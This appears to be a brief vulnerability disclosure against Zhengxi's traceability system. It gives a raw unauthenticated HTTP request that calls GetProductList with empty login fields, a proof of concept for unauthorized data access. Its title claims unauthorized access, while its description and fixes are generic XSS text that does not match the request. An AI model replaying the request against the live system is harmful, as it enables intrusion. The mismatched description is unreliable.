

# There are unauthorized vulnerabilities in Zhengxi's traceability system

### 企业官网(Enterprise official website)：

http://www.zenrish.com/

### 危害描述(Vulnerability description)：

**XSS vulnerabilities** allow attackers to inject malicious scripts into web pages, stealing sensitive data, manipulating content, or performing unauthorized actions.

### 漏洞细节(Vulnerability details)：

```
POST /Worker/Invoke/ HTTP/1.1
Host: 
Content-Length: 73
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.93 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

MenuParentId=3&MenuId=1&Model=2&LoginId=&LoginCode=&Method=GetProductList
```




### 修复建议(Repair suggestion)：

**Remediation suggestions** include strict input validation and output encoding, using Content Security Policy (CSP) to restrict script sources, and leveraging built-in security features of modern frameworks.

